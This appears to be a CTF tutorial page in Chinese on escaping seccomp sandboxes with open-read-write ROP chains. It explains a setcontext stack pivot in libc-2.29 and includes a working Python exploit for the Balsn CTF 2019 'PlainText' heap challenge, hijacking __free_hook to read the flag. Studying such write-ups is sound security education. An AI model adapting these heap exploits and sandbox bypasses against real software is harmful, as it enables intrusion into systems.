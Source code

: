 # C 沙盒逃逸
## orw

有些時候 pwn 題目中爲了增加難度，會使用類似 [seccomp](https://en.wikipedia.org/wiki/Seccomp) 的函數來禁用一部分系統調用，往往會把 execve 這種系統調用禁用掉，基本上拿 shell 是不可能了，但是我們 pwn 題是面向 flag 的，所以還是可以通過 orw（ open-read-write ）的方法來讀出 flag 的。在棧上的 orw 和 普通 rop 其實沒有什麼特別大的區別，這裏主要談一談堆利用中的白名單繞過。

一般來說，開啓了白名單的堆利用類題，我們會在劫持了某鉤子函數如 __free_hook 或 got 表之後考慮實現 orw，這個時候我們只可以注入一個 gadget，一般來說我們希望這個 gadget 能夠實現棧遷移，一種比較通用的做法是利用 setcontext 函數，其在 libc-2.29 中實現爲

```
.text:0000000000055E00 ; __unwind {
.text:0000000000055E00                 push    rdi
.text:0000000000055E01                 lea     rsi, [rdi+128h] ; nset
.text:0000000000055E08                 xor     edx, edx        ; oset
.text:0000000000055E0A                 mov     edi, 2          ; how
.text:0000000000055E0F                 mov     r10d, 8         ; sigsetsize
.text:0000000000055E15                 mov     eax, 0Eh
.text:0000000000055E1A                 syscall                 ; LINUX - sys_rt_sigprocmask
.text:0000000000055E1C                 pop     rdx
.text:0000000000055E1D                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:0000000000055E23                 jnb     short loc_55E80
.text:0000000000055E25                 mov     rcx, [rdx+0E0h]
.text:0000000000055E2C                 fldenv  byte ptr [rcx]
.text:0000000000055E2E                 ldmxcsr dword ptr [rdx+1C0h]
.text:0000000000055E35                 mov     rsp, [rdx+0A0h]
.text:0000000000055E3C                 mov     rbx, [rdx+80h]
.text:0000000000055E43                 mov     rbp, [rdx+78h]
.text:0000000000055E47                 mov     r12, [rdx+48h]
.text:0000000000055E4B                 mov     r13, [rdx+50h]
.text:0000000000055E4F                 mov     r14, [rdx+58h]
.text:0000000000055E53                 mov     r15, [rdx+60h]
.text:0000000000055E57                 mov     rcx, [rdx+0A8h]
.text:0000000000055E5E                 push    rcx
.text:0000000000055E5F                 mov     rsi, [rdx+70h]
.text:0000000000055E63                 mov     rdi, [rdx+68h]
.text:0000000000055E67                 mov     rcx, [rdx+98h]
.text:0000000000055E6E                 mov     r8, [rdx+28h]
.text:0000000000055E72                 mov     r9, [rdx+30h]
.text:0000000000055E76                 mov     rdx, [rdx+88h]
.text:0000000000055E76 ; } // starts at 55E00
```

當然其他版本也大同小異，可見在這個函數中有對 rsp 的賦值，如果我們可以控制 rdx，就可以控制 rsp 實現棧遷移了。

### 例題
#### Balsn_CTF_2019-PlainText
##### 分析
在 orw 之前的利用這裏不再贅述，請見《Glibc Heap 利用》目錄下的《堆中的 Off-By-One》中對此題的分析

比較討厭的是，在 libc-2.29 下，free 函數不會再將 rdi 賦值給 rdx，我們無法直接控制 rdx，僅能控制 rdi，幸好比較巧合的，在本題的 libc 中有這樣一個 gadget

```
0x12be97: mov rdx, qword ptr [rdi + 8]; mov rax, qword ptr [rdi]; mov rdi, rdx; jmp rax;
```

通過使用這個 gadget 之後改變 rdx，ret 到 setcontext 之後就可以 rop 了（這個 chunk 無法通過 ROPgadget 找出，需要使用 ropper）。
##### exploit
這裏只給出 payload
```python
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
